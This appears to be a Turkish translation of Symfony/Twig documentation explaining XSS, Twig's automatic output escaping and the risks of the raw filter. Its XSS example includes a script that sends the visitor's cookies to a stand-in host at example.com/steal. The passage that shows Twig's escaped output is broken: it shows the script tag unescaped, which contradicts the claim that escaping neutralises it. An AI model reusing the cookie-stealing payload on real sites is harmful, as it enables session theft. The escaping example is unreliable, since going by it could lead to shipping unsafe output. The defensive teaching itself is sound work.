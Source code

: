 >>>
>>> ```twig
>>> Hello {{ name }}
>>> ```
>>>
>>> Kötü niyetli bir kullanıcı ismini şu şekilde ayarlarsa:
>>>
>>> ```html
>>> My Name
>>> <script type="text/javascript">
>>>     document.write('<img src="https://example.com/steal?cookie=' + encodeURIComponent(document.cookie) + '" style="display:none;">');
>>> </script>
>>> ```
>>>
>>> Sayfada “My Name” görüntülenir, ancak saldırgan sizin çerezlerinizi gizlice ele geçirmiş olur.
>>>
>>> Bu tür saldırılara **XSS (Cross-Site Scripting)** denir.
>>>
>>> ---
>>>
>>> ### 🔒 Symfony ve Twig’de Otomatik Çıktı Kaçışlama
>>>
>>> Symfony uygulamaları **varsayılan olarak güvenlidir** çünkü Twig otomatik olarak çıktı kaçışlama uygular.
>>>
>>> Bu, özel karakterleri HTML’de zararsız hâle dönüştürür (örneğin `<` karakteri `&lt;` olur):
>>>
>>> ```twig
>>> <p>Hello {{ name }}</p>
>>> ```
>>>
>>> Eğer `name` değeri `<script>alert('hello!')</script>` ise Twig çıktısı şu şekilde olur:
>>>
>>> ```html
>>> <p>Hello <script>alert('hello!')</script></p>
>>> ```
>>>
>>> Yani JavaScript kodu çalışmaz, sadece metin olarak görünür.
>>>
>>> ---
>>>
>>> ### 🧩 `raw` Filtresiyle Kaçışlamayı Devre Dışı Bırakmak
>>>
>>> Bazen güvenilir ve HTML içeriği barındıran bir değişkeni **doğrudan** render etmek isteyebilirsiniz.
>>>
>>> Bu durumda `raw` filtresini kullanarak kaçışlamayı devre dışı bırakabilirsiniz:
>>>
>>> ```twig
>>> <h1>{{ product.title|raw }}</h1>
>>> ```
>>>
>>> Eğer `product.title` şu şekildeyse:
>>>
>>> ```html
>>> Lorem <strong>Ipsum</strong>
>>> ```
>>>
>>> Twig bu içeriği **aynen** çıktı olarak verir, yani `<strong>` etiketi korunur.
>>>
>>>> ⚠️ `raw` filtresini yalnızca **güvenilir** HTML verilerde kullanın.
>>>>
>>>> Kullanıcı girdilerini asla `raw` ile yazdırmayın.